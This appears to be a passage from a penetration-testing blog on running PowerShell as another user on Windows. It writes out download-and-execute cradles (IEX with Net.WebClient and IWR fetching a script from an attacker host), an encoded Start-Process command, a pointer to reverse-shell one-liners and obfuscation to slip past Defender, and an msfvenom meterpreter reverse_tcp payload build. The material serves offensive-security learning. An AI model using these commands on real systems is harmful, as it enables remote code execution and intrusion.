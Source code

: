 ```terminal
PS > Start-Process -FilePath Powershell -ArgumentList "-enc <pasted_b64_string_here>" -Credential $cred
```

The benefit here is you can copy a Powershell script from something like [Nishang](https://github.com/samratashok/nishang) to toss back a reverse shell if need be. However note that there is a character limit, so it's best to use one of his famous Powershell Reverse TCP one-liners to ensure this works.

### Download and Run a Powershell Script

This isn't as useful so much these days because Defender is usually quick to toss the ban-hammer at anything involving the `Invoke-Expression` commandlet, but sometimes you can get lucky. This will assume you have a web server handy to serve something like a Nishang script as mentioned earlier, and there is no character limit here so you don't have to pare it down. Though it may be beneficial to obfuscate it a bit. For that, the [Powershell Obfuscation Bible](https://github.com/t3l3machus/PowerShell-Obfuscation-Bible) is a pretty handy resource.

```terminal
PS > IEX(New-Object Net.WebClient).downloadString('http://10.10.20.30:8000/myscript.ps1')
```

While technically this doesn't fall under the criteria as "running a script as another user," I think it can be argued that if you can find an exploit for an application _that runs as another user_, if you are to get it to execute the above, then you are effectivly executing a script as another user. Just food for thought.

Additionally, I've found that there isn't as much of a need to be as verbose as to register a new object, but rather evaluate the contents of a web request. This seems to work just as well as the above:

```terminal
PS > IEX(IWR http://10.10.20.30:8000/myscript.ps1)
```

Thankfully there are at least a few things you can do without having to type so much. As a Linux user (or maybe just a lazy user) through and through, any way I can save keystrokes the better.

## Useful Techniques

### Metasploit

If you'd like to upgrade your shell to a meterpreter shell, one thing you can do is create a staged payload binary, download it, and run it once you have meterpreter listening. To do that, first we'll generate the binary using `msfvenom`:

```terminal
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.20.30 LPORT=9090 -f exe -o evil.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: evil.exe
```
